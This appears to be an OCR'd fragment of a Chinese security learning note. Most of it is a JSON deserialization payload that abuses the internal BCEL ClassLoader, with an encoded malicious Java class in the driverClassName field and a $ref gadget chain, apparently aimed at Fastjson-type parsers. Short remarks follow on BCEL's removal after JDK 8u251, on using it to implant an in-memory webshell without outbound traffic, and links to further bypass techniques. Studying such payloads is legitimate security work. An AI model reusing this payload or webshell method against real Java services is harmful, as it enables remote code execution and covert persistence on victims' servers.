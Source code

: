 ```json
                    "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName":"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$c9N$c30$Q$7dn$d3$s$84$94$$P$f6$7d$z$i$e8$85$h$88$L$82$La$R$ad$e0$88$5cc$V$976$a9R$X$f1G$9c$b9$A$e2$c0$H$f0Q$88$89$vP$E$91$e2$c9$bcy$f3$e6M$fc$f6$fe$f2$K$60$L$ab$$$i$8c$b9$Y$c7$84$83$c98N$d9$98v$91$c2$8c$8dY$hs$M$e9$j$V$u$bd$cb$90$y$ad$9f3X$7b$e1$95d$c8$fa$w$90$c7$ddVMFU$5ek$SR$f0C$c1$9b$e7$3cRq$de$D$z$7d$ad$3a$M9$ff$ac$hh$d5$92$97$j$cd$b5$S$db$M$ce$8eh$f6$84$Z$R$8b$7e$83$df$f2r$93$H$f5$f2$fe$9d$90m$ad$c2$80h$99$8a$e6$e2$e6$88$b7$8d$mycp$xa7$S$f2$40$c5$D$86$7f$Lo$c6$w$k$G$e0$da$98$f7$b0$80E$f2$40$b6$84$87$r$y$T$fd$9f$v$kV$e02$M$fdV$o$d3$3f$dc$93ZC$K$cd$90$ff$81zl$b2S$97$fa$3b$v$96$d6$fd$3f$iZ$c3$92w$92$q$d7J$7d$d5$8a$8eTP$df$eeo8$8dB$n$3b$jj$c8$b6$a9$a8$cd$f2$d5$88$LI$ab$d8tU$f1$93$A$8b$X$a4s$90$b22EF1$b5$f1$E$f6$60$ca$k$9di$D$d2$ff$a3$d3$fb$q$60$IY$8a$Or$df$cd$dc$88$B$85g$q$K$c9GX$X$f7p$O7$k$91$7e0$f8$A$f5$a6$904$8a$a3$f4$FX$84$d9$G$cd$d0$8c$3c$a9$7dM$c8P$z$8f$Ce$c3$f4$daH$f86F$y$w$U$8d$a9$d1$Pg4$40Dt$C$A$A",

                     "$ref": "$.x.y.c.connection"
            }
        }
    }
}
```

只可惜BCEL这么好的东西，在8u251之后被移除

https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html

BCEL打内存马=修改本地组件功能，通过达到不出网利用且回显的手法

高版本利用：https://www.freebuf.com/vuls/361576.html

以后学了groovy再看
